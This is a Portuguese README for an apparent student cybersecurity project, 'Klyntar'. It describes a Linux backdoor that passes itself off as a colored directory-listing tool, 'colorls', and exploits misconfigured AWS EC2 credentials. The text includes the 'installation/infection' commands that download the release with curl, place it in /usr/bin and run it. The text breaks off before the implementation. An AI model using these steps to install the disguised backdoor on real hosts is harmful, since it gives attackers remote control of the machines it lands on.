 <!-- PROJECT LOGO -->

<p align="center">
    <img src="doc/images/venom_0c44_360x640.jpg" alt="Logo" width="300" height="600">
  <p align="center">
    Trabalho da disciplina de Cybersecurity para criação de um vírus que explora vunerabilidade de credenciais mal configuradas em servidores AWS EC2. 
  </p>
</p>

## O desafio! 

Elaborar um vírus da categoria back door que possibilite a execução remota de ações no sistema operacional hospedeiro (Linux).

## O disfarce

O programa se disfarça como uma simples ferramenta de comando para mostrar os diretorios da instância colorido :smile:.

## Porque Klyntar?

O simbionte Venom personagem da Marvel nem sempre foi o inimigo do Homem-Aranha ou um item de seu guarda-roupa. Sua origem está associada a um longínquo planeta na galáxia de Andrômeda, chamado *Klyntar*. Venom é um membro de uma raça alienígena de simbiontes que recebem o mesmo nome de seu planeta natal.

## Instalação/Infecção

``` bash
curl https://github.com/gabriel-dantas98/klyntar/releases/download/0.0.2/colorls.tar 
mv colorls /usr/bin/
chmod +x /usr/bin/colorls

colorls help

colorls install
```

## Por trás dos panos 
